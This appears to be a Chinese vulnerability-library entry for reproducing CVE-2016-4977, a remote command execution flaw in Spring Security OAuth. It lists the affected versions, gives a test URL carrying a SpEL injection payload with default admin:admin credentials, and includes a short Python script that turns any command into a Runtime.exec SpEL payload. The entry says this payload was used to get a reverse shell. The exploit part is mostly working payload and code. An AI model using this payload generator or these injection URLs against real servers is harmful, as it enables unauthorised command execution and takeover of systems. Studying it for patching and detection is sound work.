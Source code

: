 （CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞
========================================================

一、漏洞简介
------------

Spring Security OAuth 是为 Spring
框架提供安全认证支持的一个模块。在其使用 whitelabel views
来处理错误时，由于使用了Springs Expression Language
(SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

二、漏洞影响
------------

Spring Security OAuth 2.0.0版本至2.0.9版本Spring Security OAuth 1.0.0版本至1.0.5版本中

三、复现过程
------------

访问`http://www.0-sec.org:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![1.png](./.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId24.png)

然后，我们使用poc.py来生成反弹shell的POC（注意：\[Java反弹shell的限制与绕过方式要在这个网站进行转码\]

    http://www.jackson-t.ca/runtime-exec-payloads.html
    CVE-2016-4977.py
    #!/usr/bin/env python

    message = input('Enter message to encode:')

    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

    for ch in message[1:]:
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

    poc += ')}'

    print(poc)

![2.png](./.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId25.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

![3.png](./.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId26.png)
